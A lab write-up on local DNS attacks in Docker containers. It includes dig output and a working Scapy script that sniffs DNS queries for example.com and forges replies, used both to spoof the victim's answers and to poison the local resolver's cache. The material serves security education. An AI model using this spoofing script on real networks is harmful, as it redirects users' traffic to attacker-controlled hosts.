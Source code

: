 # Local DNS Lab
In this lab we are going to launch a local DNS attack. The network structure of the docker containers in this lab is shown below:
 ![a](/screenshots/net.png)

Here we have a local DNS server running bind9, a victim which uses the local DNS server, an attacker and a name server which is in control of the attacker.
Bind is configured to forward all the queries about domain `attacker32.com` to the attacker name server.

On the attacker nameserver we have to zones one for `attacker32.com` and one for `example.com`.

## Task 0: Testing the setup
first let's test that the user can connect to the local dns server and the local dns server can correctly forward the query to the attacker nameserver; For these we run the following dig command from the user container:

```bash
root@2f3d17df9e37:/# dig ns.attacker32.com

; <<>> DiG 9.16.1-Ubuntu <<>> ns.attacker32.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 10131
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 34b9abbeb6398d9b01000000614599962dd8316e6ec28230 (good)
;; QUESTION SECTION:
;ns.attacker32.com.             IN      A

;; ANSWER SECTION:
ns.attacker32.com.      259200  IN      A       10.9.0.153

;; Query time: 7 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sat Sep 18 07:47:34 UTC 2021
;; MSG SIZE  rcvd: 90
```

We see that from server `10.9.0.53`(local DNS server ) we have an A record containing the IP address of attacker name server `10.9.0.153`.

Now let's dig `example.com`

```bash
root@2f3d17df9e37:/# dig www.example.com  

; <<>> DiG 9.16.1-Ubuntu <<>> www.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54197
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: 8096dab70d3d55cf010000006145a9f48b5c8ff285088252 (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        86400   IN      A       93.184.216.34

;; Query time: 1396 msec
;; SERVER: 10.9.0.53#53(10.9.0.53)
;; WHEN: Sat Sep 18 08:57:24 UTC 2021
;; MSG SIZE  rcvd: 88

root@2f3d17df9e37:/# dig @ns.attacker32.com www.example.com

; <<>> DiG 9.16.1-Ubuntu <<>> @ns.attacker32.com www.example.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 13256
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: ac4354402e1428ef010000006145aa08dee4f72f0dad03ea (good)
;; QUESTION SECTION:
;www.example.com.               IN      A

;; ANSWER SECTION:
www.example.com.        259200  IN      A       1.2.3.5

;; Query time: 0 msec
;; SERVER: 10.9.0.153#53(10.9.0.153)
;; WHEN: Sat Sep 18 08:57:44 UTC 2021
;; MSG SIZE  rcvd: 88
```

when we ask the local dns server about the `example.com`, because it's cache is empty; it would reach out to one of the root servers and do a recursive search to finally get the IP address of the authoritative nameserver of `example.com`; then it would ask that name sever about the `example.com` domain and get the actual IP address which is `93.184.216.34`.

now when we ask the attacker name server, which we normally would not; we get the attacker defined IP of `1.2.3.5`.

## Task 1
In this task we are going to sniff the local network for any dns queries that are about `example.com`; Now when victim digs the `www.example.com`; it sends a DNS query to the local dns server. Now if we are quicker than the local dns, we can forge a respond and send this to the victim before the local DNS does; this way we can forward victim to any server we like whenever he/she wants to visit `example.com`; to this end we write the following Scapy script:

```python
NS_NAME = "example.com"
def spoof_dns(pkt):
    if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        # Create an IP object
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        # Create a UDP object
        udp = UDP(dport=pkt[UDP].sport, sport = 53)
        # Create an aswer record
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='2.3.4.5')
        # Create a DNS object
        dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0,qr=1,qdcount=1, ancount=1,nscount=0, arcount=0, an=Anssec)
        spoofpkt = ip/udp/dns
        #
        # Assemble the spoofed DNS packet
        send(spoofpkt)

# Set the filter
myFilter = "udp and dst port 53"
pkt=sniff(iface='br-e2f3384b00c9', filter=myFilter, prn=spoof_dns)

```
In scapy, we need to build up different layers of the response packet, whenever we receive a DNS packet which queries `example.com`; this is how we assemble the response:

* In the ip and udp layers we only need to swap the ip and port number of source and destination so that we trick the victim into believing this packet has actually come from the local DNS.

* In the application layer (DNS) we need to create a type A recored for the query with a valid ttl and any IP address we like and then put this record in the answer section and finally we also need to set some flags indicating that this message is for the response of the actual sent query.

This is the script in action:

 ![a](/screenshots/task1.png)

 As you can see the first dig, gets the correct IP address, but the second dig which is after the attacker has run the script, gets the incorrect IP address.
 Note that we needed to flush the local DNS cache for this to work. This is because after the first dig, the local DNS has the correct IP in cache and it would reply faster than us to the victim and so our packet would not have any impact. To slow down the local DNS, we flush it's cache so that it needs to retrieve the IP once again, and since the last time took more than two second, we can be sure that attacker response is going to be faster.

## Task 2

In this task we are going to **poison the DNS cache**. By this we mean that instead of responding to the victim DNS query, we are going to forge a respond to the local DNS DNS query, when it tries to reach the internet and resolve the IP of an unknown domain name. 
For this task we actually can use the previous script; because in the previous script we had not specified any specific source IP in the `filter` section. This means that actually in the previous experiment in addition to attacking to victim, we also have had poisoned the DNC cache. The below screenshot verifies this:
 ![a](/screenshots/task2.png)
 At first in the dns cache ,the ip address of `example.com` is stored correctly, We then flush this cache and start the script and then dig `example.com` from the user we start the recursive DNS query algorithm of the Local DNS; the attacker sniffs 3 DNS queries, the original one from the victim, which we kindly respond to; and two others coming from local DNS trying to ask the outside world about the IP of `example.com` which we respond to those to. This as you can see results in a poisoned cache.